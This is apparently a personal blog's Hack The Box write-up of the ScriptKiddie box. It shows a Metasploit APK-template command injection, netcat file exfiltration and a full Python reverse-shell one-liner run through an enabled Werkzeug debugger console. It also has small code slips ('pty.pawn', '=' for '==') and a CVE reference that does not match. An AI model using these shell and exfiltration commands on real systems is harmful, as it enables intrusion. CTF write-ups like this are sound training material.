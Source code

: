 ```yaml
---
title: "HTB Writeup 1: Werkzeug"
date: 2020-03-18T07:56:03+00:00
# weight: 1
# aliases: ["/first"]
tags: ["hack the box"]
author: Nate
# author: ["Me", "You"] # multiple authors
showToc: false
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "A completely unnecessary hack."
disableHLJS: true # to disable highlightjs
disableShare: true
disableHLJS: false
searchHidden: false
cover:
    image: "https://raw.githubusercontent.com/nahberry/blog.dev.repo/main/resources/Images/htblogo-yellow.jpg" # image path/url
    alt: "header" # alt text
    caption: "<text>" # display caption under cover
    relative: true # when using page bundles set this to true
    hidden: false # only hide on current single page

---
```


### Messing with the Werkzeug Vulnerability in ScriptKiddie

> As stated in the description, this is a very unnecessary hack.
However, I wanted to test out the Werkzeug vulnerability and the
ScriptKiddie box allowed me to do so without a lot of setup. This writeup
will show you how to get the user flag, but after that it simply details
how to enable the Werkzeug debugger vulnerability and exploit it.  
All just for fun!  

### Background:

**Werkzeug**  

*A comprehensive WSGI web application library. It began as a simple collection of various utilities for WSGI applications and has become one of the most advanced WSGI utility libraries.*  

* Werkzeug comes with an intuitive debugger console that accepts Python scripts.  
the issue arises when debugging is enabled in a production environment.  
When the debugger console is available, so is the potential to put down a Python shell.  


### Scanning the box

We're starting off with a fairly simple Nmap scan for this one:  
`nmap -A 10.10.10.226`  

Here's the output:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
```

  This is what initially sent me down the Werkzeug path. Being that this is and easy
capture the flag box. It would make sense that this is the vulnerability they
added...but that's not the case!  

Since it's running a web application though, we should check out what they've built.

### Reverse shell  

  The site has a few features built in like running an Nmap scan or building a reverse shell
payload (guess that's why this one is titled ScriptKiddie). The reverse shell feature has
an option to upload a template file. This is where things get fun.

* We can use **msvenom** to create a reverse shell pretty quickly.
It looks like the site accepts a few different file types based on operating system.
Let's select Android since that's definitely a .apk file.

`msfconsole > use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`  

Using that template, set the LHOST and LPORT to your local information.
and set the RHOST and RPORT to the ScriptKiddie box information.

annnnnd "exploit"

Now, before we do anything with this file let's set up a netcat listener on our machine:  

`nc -nlvp <port>`

Head back to the site and select the .apk file you just generated and upload it.
Don't forget to type in your IP on the host box and select Android from the dropdown menu.  
Upload your file and head back to your listener!

```  

  └─# nc -nlvp 4444           
      listening on [any] 4444 ...
      connect to [10.10.14.14] from (UNKNOWN) [10.10.10.226] 35962

```

### Capture the flag!

  We have a shell now! (Well sort of). Doesn't seem to be interactive yet.
Python comes with a great module called Pseudo-terminal Utilities.
We can use this to our advantaged to spawn a bash shell and interact with the machine.

`python3 -c "import pty;pty.pawn('/bin/bash')"`  

If nothing happens at first try just hitting enter or waiting a minute...it is Python...  

You should see an interactive terminal now under the user 'kid.'  

kid@scriptkiddie:~/html$  

Snoop around for a bit and you should find the user.txt flag!  

### On to learn about the Werkzeug Debugger

> There's still a root flag to find, but I'll leave that to you. There are
plenty of other writeups for that if you wish to use one.

  Digging around in the directory reveals that we have access
to the "app.py" file. This is the Python script that launches the web app.  
Let's see what we can do with this.  

**Step 1 - Get the web app to run in debug mode**  

* Being able to edit it in vim is highly unlikely through a remote shell connection.
The lack of key mapping would make that nearly impossible. We should be able to retrieve the file though.  

* For this let's set up another netcat listener on our machine for a file transfer.
Here's the command: nc -l -p <port to listen on> > <file>

`nc -l -p 1234 > app.py`

* Go back to the shell you have open on the target machine and start a netcat transfer
from there. Here's the command: nc -w 3 <IP for receiving machine> < <file>

`nc -w 3 10.10.14.14 1234 < app.py`

Once you've verified that you have the file, delete it from the target machine.
"rm app.py" should do just fine.  

* Now we can edit the file on our machine. Personally I find it's easier just to load it
in vim since we're already in a console but feel free to use anything you like.

* From looking at the Werkzeug documentation it seems like we can enable debugging by adding
a few parameters to the app.run() function:

 ```
 if __name__ = '__main__':
			app.run(host=os.getenv('IP', '0.0.0.0'),
			port=int(os.getenv('PORT', 1234)),
			debug=True)
 ```

 *Here I set the port to 1234 because it's likely that the Flask service is already running
 on port 5000*  

 * Netcat the file back over to the target machine and start it up!

```

kid@scriptkiddie:~/html$ python3 app.py
python3 app.py
* Serving Flask app "app" (lazy loading)
* Environment: production
WARNING: This is a development server. Do not use it in a production deployment.
Use a production WSGI server instead.
* Debug mode: on
* Running on http://0.0.0.0:1234/ (Press CTRL+C to quit)
* Restarting with stat
* Debugger is active!
* Debugger PIN: 296-961-101

 ```
* Yes! The web app is now running in debug mode, and we have a debugger pin!

**Step 2 - Drop in a reverse shell through the console**

* Navigate to http://10.10.10.226:1234/console to get to the debugger. Enter the pin to
log in.

* The goal is to exploit the vulnerability in the debugger that allows us to establish a reverse shell. Since the console allows for Python scripts, this is fairly simple.

*Pentest Monkey has a cheat sheet for this if you want to stick to the Script Kiddie way of life.*  

[Reverse Shell Cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

Since the console already knows that we're running Python, remove the "python -c" from the beginning as well as the quotes. Then add the IP and port of your machine.

* Before you hit Enter, make sure to set up a netcat listener on the port you used in the script!

**There we have it! We have officially exploited the Werkzeug vulnerability and established a**
**reverse shell connection. However, the Werkzeug app isn't running on an account with root access, so still no root flag...but hey, it was fun manipulating the system!**


### References:

**CVE-2018-14649**
https://nvd.nist.gov/vuln/detail/CVE-2018-14649

**Werkzeug Debugging**
https://werkzeug.palletsprojects.com/en/1.0.x/debug/
